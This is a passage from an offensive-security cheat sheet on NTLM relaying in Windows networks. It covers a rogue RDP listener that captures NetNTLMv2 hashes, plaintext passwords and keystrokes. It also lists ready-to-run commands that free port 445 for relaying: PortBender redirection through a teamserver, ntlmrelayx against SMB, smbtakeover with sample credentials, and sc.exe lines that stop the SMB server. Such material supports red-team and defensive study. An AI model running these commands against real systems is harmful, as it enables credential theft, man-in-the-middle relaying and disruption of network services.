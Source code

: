 * If Network Level Authentication (NLA) is enabled, you will obtain the client's NetNTLMv2 challenge
* If NLA is disabled, you will obtain the password in plaintext
* Other features are available such as keystroke recording

**Alternatives**

* [SySS-Research/Seth](https://github.com/SySS-Research/Seth), performs ARP spoofing prior to launching the RDP listener

## Common Issues Forwarding Port 445

By default the SMB service is listening on port 445, blocking any relaying attempt on this port

**Technique #1**: Forward port 445 on Windows machine using a driver

* [praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender) - TCP Port Redirection Utility

    ```ps1
    rportfwd 8445 127.0.0.1 445 # Machine 8445 redirected to Teamserver 445
    sudo proxychains python3 examples/ntlmrelayx.py -t smb://10.10.10.10 -smb2support # relay SMB to 10.10.10.10

    upload WinDivert32.sys
    upload WinDivert64.sys

    PortBender redirect 445 8445 # Redirect port 445 to 8445 on the machine
    ```

**Technique #2**: Disable SMB service, to easily portforward port 445

* [zyn3rgy/smbtakeover](https://github.com/zyn3rgy/smbtakeover) - BOF and Python3 implementation of technique to unbind 445/tcp on Windows via SCM interactions

    ```ps1
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 check
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 stop
    python3 smbtakeover.py atlas.lab/josh:password1@10.0.0.21 start

    bof_smbtakeover localhost check
    bof_smbtakeover 10.0.0.21 stop
    bof_smbtakeover localhost start

    rportfwd_local 445 127.0.0.1 445
    ```

* [Windows/sc.exe](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/sc-config)

    ```ps1
    sc config LanmanServer start= disabled
    sc stop LanmanServer
    sc stop srv2
    sc stop srvnet
    ```

* [XiaoliChan/wmiexec-Pro](https://github.com/XiaoliChan/wmiexec-Pro)
